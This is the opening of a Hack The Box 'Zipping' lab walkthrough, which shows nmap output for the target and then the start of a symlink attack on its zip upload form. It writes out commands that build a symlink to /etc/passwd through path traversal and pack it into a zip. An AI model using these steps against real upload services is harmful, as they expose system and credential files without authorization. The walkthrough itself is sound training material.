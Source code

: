 ```yaml
---
layout: post
title:  "Zipping"
tags: ["SQL Injection", "Path Traversal", "Reverse Engineering"]
os: "Windows"
level: "Medium"
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/03e875ef2a39c9a2bd7538b3cfcd9b8a.png"
---
```


# Hack The Box - Zipping Walkthrough

### Services Enumeration
The first step is to enumerate the services of the machine.

```
sudo nmap -sC -sV -p22,80 zipping.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-26 16:35 CET
Nmap scan report for zipping.htb (10.10.11.229)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.51 seconds
```

We can see that there is only two services ssh and a web application. The web application provides various avenues for exploitation. The "Work for us" page allows only a .pdf file within a .zip file to be uploaded. Exploiting a symlink vulnerability, we can make the server expose sensitive data.

### Symlink Exploitation
- Create a symbolic link to a specific file (e.g., `/etc/passwd`):

```bash
ln -s ../../../../../../etc/passwd symindex.pdf
```

- Create a .zip file with the symlink inside:

```bash
zip --symlinks test.zip symindex.pdf
```
